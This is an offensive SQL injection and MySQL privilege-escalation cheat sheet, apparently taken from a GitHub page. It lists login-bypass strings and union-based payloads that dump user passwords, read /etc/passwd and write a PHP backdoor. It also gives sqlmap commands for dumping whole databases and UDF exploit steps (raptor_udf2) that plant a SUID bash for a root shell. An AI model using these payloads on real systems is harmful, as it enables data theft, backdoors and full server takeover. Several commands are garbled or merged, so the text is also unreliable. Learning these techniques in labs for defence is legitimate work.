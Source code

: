 # SQL
### Authentication bypass

‘ or 1=1 #

‘ or 1=1 —

‘ or 1=1 ; #

‘or 1=1 ; —

---

### Enum database

check input field → ‘ 

- 1’ order by 3 # —> to know number of columns
    - 1’ or ‘1’=’1 —> retrieve all data
- 1’ or 0=0 union select null, version() # —> db version
- 1’ or 0=0 union select null, user() # —> db user
- %’ or 0=0 union select null, database() # —> db name
- %’ and1=0 union select null, table_name from information_schema.tables # —> print all tables in all db
- %’ and 1=0 union select null, schema_name from information_schema.schemata # —> print all DB.s
- %’ and 1=0 union select table_schema, table_name from information_schema.tables # —> print all tables and db.s
- %’ and 1=0 union select table_name , columns_name from information_schema.columns # —> print all columns from all tables
- %’ 1=0 union select user, password from dvwa.users # —> we are in :3
- %’ 1=0 union select null, load_file(’/etc/passwd’) # —> the evil part :3
- %’ 1=0 union select null. “write everything you want :3  “ into OUTFILE ‘/tmp/backdoor.php’ #

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Table_schema ⇒ whitch have all data bases

Table_name ⇒ whitch have all tables name 

select table name from informayion_schema.tables

select <column name> from <database.table>

---

## SQLMAP

**Simple HTTP GET Based Test**

`sqlmap -u https://testsite.com/page.php?id=7 --dbs`

**Simple HTTP POST Based Test**

**`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`**

`sqlmap -r req.txt -p blood_group --dbs`
⇒ Now that we have the databases, let's extract tables from the database ←→

**Using GET based Method**

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`**
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**Using POST based Method**

**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`**

`sqlmap -r req.txt -p blood_group -D blood --tables`

Once we have available tables, now let’s gather the columns from the table **blood_db**

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

**`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`**

Or we can simply dump all the available databases and tables using the following commands.

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-allsqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`

**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-allsqlmap -r req.txt-p  -D <database_name> --dump-all`
-------------------

If Mysql Is Running as root and you have credentials to access it then :

```sql
mysql> show databases;
mysql> use <table>;
mysql> CREATE FUNCTION sys_eval RETURNS INT SONAME ‘lib_mysqludf_sys.so’;
mysql> \! clear
mysql> select sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+x /var/tmp/bash");
mysql> exit
```

.

```bash
# cd /var/tmp

# ./bash -p



bash-3.2# id
root
```

Or you can Do :
[•] Exploit Link : https://www.exploit-db.com/exploits/1518

[•] transfer this exploit to the target and use the following commands to compile it :

```bash
# gcc -g -c raptor_udf2.c -fPIC

# gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

[•] Connect to mysql service as root.

```sql
mysql -uroot
```

[•] Execute the following commands on the MySQL shell :

```sql
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```

[•] Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

[•] Exit out of the MySQL shell and Type :

```sql
/tmp/rootbash -p
```

.
